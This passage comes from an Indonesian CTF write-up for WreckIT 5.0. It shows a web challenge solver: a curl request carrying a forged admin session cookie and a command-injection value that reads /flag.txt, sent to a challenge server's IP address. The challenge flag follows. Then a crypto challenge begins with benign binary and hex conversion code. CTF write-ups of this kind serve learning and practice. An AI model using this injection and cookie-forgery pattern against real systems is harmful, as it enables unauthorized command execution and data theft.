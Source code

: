 <kbd>solver.sh</kbd>
```bash
curl -X POST -d "oshi_name=freya\"; cat /flag.txt; echo #" --cookie "session=eyJyb2xlIjoiYWRtaW4ifQ.ZrbXaQ.9CjlFr995lsT5RjKbe9D_6t4kMg" http://146.190.104.208:7012/admin
```

![Oshiku-02](https://raw.githubusercontent.com/whyuhurtz/hackmd-blog/main/2024/_assets/wreckit5.0_web1-02.png)

### Flag

==WRECKIT50{oshikucumansatukok_satujkt}==

# Crypto

## m4k c0MbL4n6

### Deskripsi

<details></details>

### Langkah Penyelesaian

- Diberikan 2 file, yaitu `propietary.py` dan `chall.py` .

<kbd>propietary.py</kbd>
```python=
import math

def biner_ke_hex(biner):
    desimal = int(biner, 2)
    heksadesimal = hex(desimal)
    return heksadesimal[2:]

def float_bin(my_number, places=3):
    my_whole, my_dec = str(my_number).split(".")
    my_whole = int(my_whole)
    res = (str(bin(my_whole))+".").replace('0b','')

    for x in range(places):
        my_dec = str('0.')+str(my_dec)
        temp = '%1.20f' %(float(my_dec)*2)
        my_whole, my_dec = temp.split(".")
```